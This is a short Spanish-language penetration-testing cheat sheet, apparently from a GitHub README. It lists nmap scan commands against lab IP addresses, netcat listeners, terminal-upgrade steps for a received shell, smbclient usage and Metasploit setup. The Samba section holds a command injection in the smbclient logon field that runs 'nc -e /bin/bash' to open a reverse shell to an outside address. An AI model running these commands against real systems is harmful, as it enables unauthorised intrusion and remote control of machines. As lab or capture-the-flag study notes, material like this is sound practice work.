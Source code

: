 # Comandos interesantes

## NMAP

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

Puertos UDP, Los primeros 100
<pre>
nmap -sU -sCV -p1-100 192.168.168.193 -oN targetedUDP
</pre>

Especifico de vulnerabilidades sin intrusión
<pre>
nmap -p139,445 --script="Vuln and Safe" 192.168.168.193 -oN vulnScan 
</pre>

Enumeracion de directorios WEB básicos
<pre>
nmap --script http-enum -p80 10.10.10.180 -oN webScan
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

Si la consola nos da problemas con **script /dev/null -c bash** podemos prbar con python:

</pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.


## Metasploit

### Iniciar la primera vez

Arrancamos servicio de base de datos
<pre>
sudo service postgresql start
</pre>

Inicamos bbdd de metasploit

<pre>
sudo msfdb init
</pre>

Despues como siempre

<pre>
msfconsole
</pre>
